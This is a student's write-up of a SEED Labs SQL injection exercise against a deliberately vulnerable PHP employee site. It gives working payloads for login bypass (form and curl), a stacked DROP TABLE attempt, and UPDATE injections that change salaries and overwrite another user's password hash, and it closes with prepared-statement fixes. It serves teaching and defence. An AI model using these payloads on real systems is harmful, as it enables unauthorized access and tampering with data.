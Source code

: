 # SQL Injection LogBook

This logbook pretends to documentante the work that was made in the SQL Injection lab, deduce some conclusions, identify the errors that were commited as well as to suggest the mosifications that would make the system secure to this type of attacks.

## Task 1

This first task is to adapt to the environment. We must use:

```sh
mysql -u root -pdees
```

and then we can use this

```sh
show tables;
```


## Task 2

In this attack, we were presented to the php file that is being ran under the server side.

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
```

### Task 2.1 - Attack from webpage

Considering that we know the code, it is really easy to exploit this vulnerability:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

After that, the approach that was made was exaclty the same, but in the command line, it will go like this:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

The next challange is to try to add a new sql statement in the project. Here is a way of how to do that:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

However, this query does not let to drop the table `creentia`. That occurs because the `$conn -> query($sql)` only executes the first query as a protection measure.

## Task 3

Here is the php code that executes the query that will update the database after editing the profile

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The form looks like this:

![Form2](images/LOGBOOK8/form2.png)

### Task 3.1 - Modify own salary

To do so, the parameters would be

`nickname: <nickname>', salary = 1000000 WHERE nickname = <nickname>; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

With that, we reach the following sql code:

```sql
UPDATE credential SET
   nickname=’<nickname>’, salary = 1000000 WHERE nickname = <nickname>; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.2 - Reduce the Boby's salary

`nickname: Boby', salary = 1 WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

We reach the following query:

```sql
UPDATE credential SET
   nickname=’Boby’, salary = 1 WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

### Task 3.3 - Modify other people’ password

For this example, assuming that we know that the password is hashed using the sha1 method, we can change the password manually. For instance, let's change the password of Boby to `banana`. If we consult [this site](http://www.sha1-online.com), we reach the hashed password, so we can see this:

`nickname: Boby', password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

```sql
UPDATE credential SET
   nickname=’Boby’, password = '250e77f12a5ab6972a0895d290c4792f0a326ea8' WHERE nickname = Boby; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```

## How to prevent this kind of attack

Here are some suggestations to make this kind of attacks more difficult to occur:

1. Use Parameterized Statements (Prepared Statements). This will help to distinguish between the sql code and the sql data. Something like:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$stmt = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
                        FROM credential
                        WHERE name=? AND Password=?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);

$stmt->execute();

$result = $stmt->get_result();
```

2. Input validation using regular expressions and others

